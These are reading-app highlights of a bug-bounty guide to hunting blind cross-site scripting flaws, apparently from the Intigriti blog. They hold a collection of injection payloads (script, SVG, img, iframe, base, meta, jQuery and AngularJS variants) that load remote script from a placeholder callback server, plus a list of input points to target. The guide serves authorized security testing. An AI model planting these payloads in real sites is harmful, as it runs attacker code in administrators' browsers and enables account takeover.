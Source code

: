 ```yaml
---
author: novasecio
aliases:
  - "Hunting for Blind XSS Vulnerabilities: A Complete Guide"
tags:
  - readwise/articles
url: https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide
date: 2025-01-07
---
```

# Hunting for Blind XSS Vulnerabilities: A Complete Guide

![rw-book-cover](https://blog.intigriti.com/icon.svg)


Blind XSS vulnerabilities are quite different as the reflection happens on a component that's not accessible to the attacker (for example, an internal-only administrative panel, or a support dashboard accessible by the helpdesk employees only). Moreover, the execution is also dependent on a privileged user that has access to the vulnerable component.
> [View Highlight](https://read.readwise.io/read/01jh020meaj7ww73j0t064pf5k)


A common approach taken is by loading a JavaScript file from your end. For that, we'd need a dedicated server that is set up to listen and handle any incoming invocations. Luckily for us, there are already open-source projects and managed solutions (sometimes paid) that we can use.
 - [XSSHunter](https://github.com/mandatoryprogrammer/xsshunter-express) by [@IAmMandatory](https://x.com/IAmMandatory) is one of them. It's open-source and easy to set up in just 5 minutes.

> [View Highlight](https://read.readwise.io/read/01jh021eg91cws70m212mp8shr)



## Injecting an external script

 This is the most common approach taken. It also allows us to bypass any applicable character limitations and makes sure our code executes without any issues. This payload will work in multiple contexts.
 
```html
 '"><script src="{SERVER}/script.js"></script>
```
 
 ### Injecting an external script (bypass)
 
 In case your payload with the script tag is blocked, we can use a simple bypass with a simple SVG tag. The following payload also makes use of base64 encoding to help prevent execution errors with our payload due to incorrect URL encoding.
```html
'"><svg onload="eval(atob(this.id))">
```
 Here's the base64 decoded payload:
```html
 const x=document.createElement('script');x.src='{SERVER}/script.js';document.body.appendChild(x);
 ```
> [View Highlight](https://read.readwise.io/read/01jh0221k7bnx14ahvcsh56r3g)

## HTTP callback

 In some cases, limited HTML is accepted and all other tags are filtered. In that case, we can still try to check if the component is vulnerable to potential blind XSS by injecting an image tag.
```html
 '"><img src="{SERVER}/img.png">
 ```
 More advanced payloads
```html
 <!-- Image tag -->
 '"><img src="x" onerror="eval(atob(this.id))">
 <!-- Input tag with autofocus -->
 '"><input autofocus onfocus="eval(atob(this.id))">
 <!-- In case jQuery is loaded, we can make use of the getScript method -->
 '"><script>$.getScript("{SERVER}/script.js")</script>
 <!-- Make use of the JavaScript protocol (applicable in cases where your input lands into the "href" attribute or a specific DOM sink) -->
 javascript:eval(atob("Y29uc3QgeD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTt4LnNyYz0ne1NFUlZFUn0vc2NyaXB0LmpzJztkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=="))
 <!-- Render an iframe to validate your injection point and receive a callback -->
 '"><iframe src="{SERVER}"></iframe>
 <!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
 <base href="{SERVER}" />
 <!-- Make use of the meta-tag to initiate a redirect -->
 <meta http-equiv="refresh" content="0; url={SERVER}" />
 <!-- In case your target makes use of AngularJS -->
 {{constructor.constructor("import('{SERVER}/script.js')")()}}
 ```
 
 >[!tip]
 >Try to include a random string or keyword in your payload to track your injection points.

> [View Highlight](https://read.readwise.io/read/01jh022t45y7setqmjjx8dxf9z)



No target is the same but a key rule to follow is to test for blind XSS vulnerability in any type of web component or feature that processes user input and is likely to be processed by internal tooling or reviewed by a privileged user.

 Some examples include:
- Feedback forms (especially when the company does not rely on third-party vendors for this feature)
- Parameters processed by analytic engines (UTM parameters are always a good start)
- Request headers processed by analytics engines (referrer headers are almost always parsed)
- Blogs and help documentation
- Generic errors
- Invoices or receipts for orders

> [View Highlight](https://read.readwise.io/read/01jh024mzqfrzrav3m68ht5c2e)

